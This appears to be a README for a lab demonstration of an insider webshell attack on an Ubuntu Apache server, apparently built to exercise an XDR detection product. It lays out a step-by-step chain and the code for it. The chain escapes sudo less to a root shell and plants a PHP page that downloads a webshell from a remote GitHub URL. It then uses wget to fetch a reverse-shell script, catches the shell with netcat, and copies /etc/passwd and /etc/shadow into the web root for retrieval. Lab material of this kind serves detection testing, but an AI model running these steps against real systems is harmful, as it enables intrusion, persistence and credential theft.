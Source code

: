 Insider Webshell Attack
=======================

![Attack Design](https://github.com/scottbrumley/images/blob/80c3840e1d0fc3abf76b03de3ab9d68d3ea7fcfc/insider-webshell-attack.png)

The Attack
------------------
>1. Login with magnifier on ubuntu-web-pr
>2. Check Sudo Permissions - sudo -l
>3. Create file - touch lesser.txt
>4. Use less - sudo less lesser.txt
>5. Less Exploit - !/bin/sh
>6. Modify getevil.php with Malicious Code
>7. Web Browser to http://ubuntu-web-pr/getevil.php
>8. Web Browser to http://ubuntu-web-pr/evil.php
>9. From evil.php on ubuntu-web-pr Get Reverse Shell - See Reverse Shell Wget
>10. On Remote Attack Console Box Open NetCat Listeners 
>	- Terminal #1 - nc -nvlp 443
>11. Web Browser Tab #1 to http://ubuntu-web-pr/reverse-shell.php?ip=consoleIP&port=443
>12. On ubuntu-web-pr - whoami
>13. On ubuntu-web-pr - sudo -i
>14. On ubuntu-web-pr - whoami
>15. On ubuntu-web-pr - cp /etc/passwd /var/www/html
>16. On ubuntu-web-pr - cp /etc/shadow /var/www/html
>17. On ubuntu-web-pr - chown apache:apache /var/www/html/shadow
>18. On ubuntu-web-pr - chown apache:apache /var/www/html/passwd
>19. Web Browser to http://ubuntu-web-pr/passwd
>20. Web Browser to http://ubuntu-web-pr/shadow
>21. On ubuntu-web-pr - rm /var/www/html/passwd
>22. On ubuntu-web-pr - rm /var/www/html/shadow


Environment
-----------
**Two Web Servers:** Ubuntu 20.04.1
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
>Default Packages Needed: 
>	- cron
>	- rsync
>	- sudo
>	- less
>	Install Apache with PHP on Both Servers:
>	- sudo apt install php libapache2-mod-php
  
**One Attacker Remote Console**
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
>Default Packages Needed: 
>	- nc 

** WebBrowser for Attack
>Any Web Browser will do

Build Environment (Requires Ansible)
-----------------
-Stand Up the Three Ubuntu Servers
-Edit the aws file with the correct Webserver addresses
-Add your AWS Key to the root folder (named: xdr.pem)
-Add your XDR installer to webshell/roles/webserver/files (named: linux-7-4-0.sh)
-Edit webshell/roles/webserver/files/mirror-web-server.sh (change IP to web-dr local IP in AWS)
-ansible-playbook -i aws main.yml

**Attacker Remote**
>Any machine with a webbrowser
  
Code
----
**Good getevil.php**
```<html>
<head>
<title>I'm a Good Web Page</title>
</head>
<body>
I'm a Good Web Page
</body>
</html>
```  
  
** Malicious getevil.php*
```
<html> 
<head> 
<title>I'm a Bad Web Page</title> 
</head> 
<body> 
I'm a Bad Web Page 

<?php // Normal code  echo "Whatsupppp";   
// start of evil code 
$code = file_get_contents("https://raw.githubusercontent.com/scottbrumley/insider-webshell-attack/main/evil.php"); 
$myfile = fopen("evil.php", "w+") or die("Unable to open file!");   
fwrite($myfile, $code);  
fclose($myfile);  
// end of evil code  ?>
</body> 
</html>  
```  

**Download Reverse Shell**
```
wget https://gist.githubusercontent.com/scottbrumley/cd76c1e61e168a5a4e8c7251fa8e8c82/raw/224af483fd976654c29f1eed9242a233437a6dad/reverse-shell.php
```  
  
